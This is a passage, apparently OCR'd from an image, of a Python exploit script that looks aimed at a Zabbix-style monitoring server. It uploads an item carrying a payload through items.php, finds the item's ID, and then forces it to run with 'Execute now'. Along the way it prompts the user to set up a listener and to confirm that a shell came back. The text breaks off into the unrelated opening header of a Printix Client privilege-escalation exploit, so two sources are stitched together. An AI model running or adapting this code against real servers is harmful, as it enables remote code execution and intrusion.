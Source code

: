 r2 =s.post(url+"/items.php" ,data=data2,headers=headers,cookies={"tab":"0"} )


no_pages= r2.text.count("?page=")

#################################################[Searching in all pages for the uploaded item]#################################################
page = 1
flag=False
while page <= no_pages :
    r_page=s.get(url+f"/items.php?page={page}" ,headers=headers )
    if  Random_name in r_page.text :
        print(Fore.GREEN+"[+] the payload has been Uploaded Successfully")
        x2 = re.search(rf"(\d+)[^\d]>{Random_name}",r_page.text)
        try :
            itemId=x2.group(1)
        except :
            pass

        print(Fore.GREEN+f"[+] you should find it at {url}/items.php?form=update&hostid={hostId}&itemid={itemId}")
        flag=True
        break

    else :
        page +=1

if flag==False :
        print(Fore.BLUE +"[?] do you know you can't upload same key twice ?")
        print(Fore.BLUE +"[?] maybe it is already uploaded so set the listener and wait 1m")
        print(Fore.BLUE +"[*] change the port and try again")
        sys.exit(-1)

#################################################[Executing the item]#################################################


data2["form"] ="update"
data2["selectedInterfaceId"] = "1"
data2["check_now"]="Execute+now"
data2.pop("add",None)
data2["itemid"]=itemId,

print(Fore.GREEN+f"[+] set the listener at {port} please...")

r2 =s.post(url+"/items.php" ,data=data2,headers=headers,cookies={"tab":"0"}) # ,proxies=proxies )

print(Fore.BLUE+ "[?] note : it takes up to +1 min so be patient :)")
answer =input(Fore.BLUE+"[+] got a shell ? [y]es/[N]o: ")

if "y" in answer.lower() :
    print(Fore.GREEN+"Nice !")
else :
    print(Fore.RED+"[!] if you find out why please contact me ")

sys.exit(0)# Exploit Title: Printix Client 1.3.1106.0 - Privilege Escalation
# Date: 3/2/2022
# Exploit Author: Logan Latvala
# Vendor Homepage: https://printix.net
# Software Link:
https://software.printix.net/client/win/1.3.1106.0/PrintixClientWindows.zip
# Version: <= 1.3.1106.0